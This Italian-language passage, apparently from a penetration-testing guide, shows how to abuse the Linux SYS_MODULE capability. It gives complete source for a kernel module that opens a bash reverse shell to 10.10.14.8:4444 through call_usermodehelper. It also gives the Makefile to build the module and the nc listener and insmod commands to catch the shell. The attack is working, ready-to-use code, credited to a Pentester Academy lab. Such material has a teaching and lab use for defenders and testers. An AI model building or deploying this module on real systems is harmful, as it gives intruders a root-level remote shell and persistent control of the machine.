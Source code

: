 **Crea** il **modulo del kernel** che eseguirà una reverse shell e il **Makefile** per **compilarlo**:
```c:reverse-shell.c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.8/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

```bash:Makefile
obj-m +=reverse-shell.o

all:
make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
> [!WARNING]
> Il carattere vuoto prima di ogni parola make nel Makefile **deve essere una tabulazione, non spazi**!

Esegui `make` per compilarlo.
```bash
Make[1]: *** /lib/modules/5.10.0-kali7-amd64/build: No such file or directory.  Stop.

sudo apt update
sudo apt full-upgrade
```
Infine, avvia `nc` all'interno di una shell e **carica il modulo** da un'altra e catturerai la shell nel processo nc:
```bash
#Shell 1
nc -lvnp 4444

#Shell 2
insmod reverse-shell.ko #Launch the reverse shell
```
**Il codice di questa tecnica è stato copiato dal laboratorio di "Abusing SYS_MODULE Capability" da** [**https://www.pentesteracademy.com/**](https://www.pentesteracademy.com)
